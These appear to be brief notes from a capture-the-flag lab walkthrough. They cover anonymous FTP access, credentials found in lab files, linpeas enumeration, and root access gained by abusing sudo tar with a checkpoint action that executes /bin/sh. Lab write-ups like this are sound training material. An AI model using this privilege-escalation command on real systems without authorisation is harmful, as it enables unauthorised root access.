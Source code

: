 ftp anon in 
download files
username in tasks list with reference i didnt get 

password in locks.txt
lin@IP
user.txt/<<flag>>
ls -l to find commands with root after getting linpeas on there to scan 

break out of tar with "sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh"
cd to root.txt flag
